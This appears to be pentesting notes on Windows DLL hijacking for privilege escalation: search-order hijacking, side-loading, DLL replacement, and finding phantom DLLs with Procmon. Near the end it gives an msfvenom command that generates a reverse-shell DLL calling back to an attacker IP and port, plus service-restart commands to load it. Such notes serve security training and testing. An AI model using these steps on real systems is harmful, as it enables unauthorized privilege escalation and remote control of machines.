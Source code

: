 ##### Explanation
Windows programs use DLL library files to work, and to use certain functions. There are checks for DLL files in a certain order:

##### Requirements
A program run as another user

### DLL redirection
Edit the %PATH% to include the malicious `.dll` first.

### DLL Side-loading (WinSxS replacement)
Replace the legitimate `.dll`  with the malicious one, on the WinSxS end (think replacing python imports on the system-end)

### DLL replacement
Check for writability of DLL files called by a program run as another user.
If there is writability, replace the DLL

### DLL Search order hijacking
If the absolute path is not specified, `.dll` files are searched for in this order:

##### DLL safe search enabled (default)
The directory from which the application is loaded (`.exe` location)
The system directory: `C:\Windows\System32\ // To make sure, try "GetSystemDirectory"`
The 16-bit system directory: `C:\Windows\System\`
The windows directory: `C:\Windows\ // To make sure, try "GetWindowsDirectory"`
The current directory (from which the command is run)
PATH

##### DLL safe search disabled (suspicious)
The directory from which the application is loaded (`.exe` location)
The current directory (from which the command is run)
The system directory: `C:\\Windows\\System32\\ // To make sure, try "GetSystemDirectory"`
The 16-bit system directory: `C:\\Windows\\System\\`
The windows directory: `C:\\Windows\\ // To make sure, try "GetWindowsDirectory"`
PATH 
```
EXE_LOCATION
EXE_CALL_LOCATION
C:\Windows\System32
C:\Windows\System
C:\Windows
$env:path
```
### Phantom DLL Hijacking with Procmon
Using RDP, open Procomon and select "Filter".

In the left-side dropdown, select "Process name".
Make sure the second dropdown equals "is".
Write the executable name (example: `dllservice.exe`) in the text field.
Add the rule, and apply:
```
process name is SERIVCE_NAME then include
```

Add another rule:
In the left-side dropdown, select "Result".
In the middle dropdown, select "is".
In the input box, type "NAME NOT FOUND".
Add and apply the rule:
```
result is NAME NOT FOUND then include
```

Run/start the program/service, check back in Procmon.
Look for the attempted calls to `.dll` libraries.
If one of the attemted call locations is writable, place a reverse shell.

Generate the DLL:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.1.167 LPORT=4444 -f dll -o msf.dll
```
OR
```
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```
Note: sometimes, you'll have to make the DLL export certain functions (think python libraries), research [online](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking).

Place the `.dll` in the writable folder, and restart the application:
```
sc.exe stop SERVICE_NAME
sc.exe start SERVICE_NAME
```